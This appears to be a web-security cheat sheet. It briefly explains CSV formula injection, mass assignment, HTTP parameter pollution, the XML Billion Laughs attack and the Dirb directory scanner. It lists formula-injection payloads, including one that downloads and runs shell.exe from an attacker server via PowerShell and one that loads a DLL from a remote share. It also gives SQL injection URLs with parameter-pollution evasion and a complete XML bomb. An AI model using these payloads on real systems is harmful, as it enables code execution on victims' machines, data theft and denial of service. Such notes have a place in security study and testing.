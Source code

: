 Formula injection:
====
when web application is processing user supplied data in EXPORT functionality spread sheet.

>>> OR
                          
CSV Injection occurs when the data injection occurs when the data in a spreadsheet cell is not properly validated prior to export. 
The attacker usually injects a malicious payload (formula) into the input field.
Once the data is exported, the spreadsheet executes the malicious payload on the assumption of a standard macro.

<h3>Payload:</h3>
           
           DDE ("cmd";"/C calc";"!A0")A0
           @SUM(1+9)*cmd|' /C calc'!A0
           =10+20+cmd|' /C calc'!A0
           =cmd|' /C notepad'!'A1'
           =cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0
           =cmd|'/c rundll32.exe \\10.0.0.1\3\2\1.dll,0'!_xlbgnm.A1

<h3>Mass Assignment</h3>
    
 When there are 2 parameters and the user insert the third un-recognised parameter and aceepted without validating is described as Mass assignment.h3
 
 <h3>HTTP Parameter Pollution</h3>
  
  HTTP Parameter Pollution (HPP) is a Web attack evasion technique that allows an attacker to craft a HTTP request in order to manipulate or retrieve hidden information. 
   For example:
   
   Regular attack: 
   
             http://webApplication/showproducts.asp?prodID=9 UNION SELECT 1,2,3 FROM Users WHERE id=3 —

Attack using HPP: 

        http://webApplication/showproducts.asp?prodID=9 /*&prodID=*/UNION /*&prodID=*/SELECT 1 &prodID=2 &prodID=3 FROM /*&prodID=*/Users /*&prodID=*/ WHERE id=3 —- -
    
 <h3>XML Billion Laugh Attack</h3>
 
 The Billion Laughs attack is a denial-of-service attack that targets XML parsers. The Billion Laughs attack is also known as an XML bomb, or more esoterically, the exponential entity expansion attack. A Billion Laughs attack can occur even when using well-formed XML and can also pass XML schema validation.

The vanilla Billion Laughs attack is illustrated in the XML file represented below.

            <?xml version="1.0"?>
            <!DOCTYPE lolz [
            <!ENTITY lol "lol">
            <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
            <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
            <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
            <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
            <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
            <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
            <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
            <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
            ]>
            <lolz>&lol9;</lolz>

Dirb
===

To perform directory search

     ./dirb http://www.test.org/ word_list.txt
    
To perform file name search with specific extension. Below mentioned example will check for files name with extensions .html and .asp

     ./dirb https://www.test.org/ common.txt -X .html,.asp
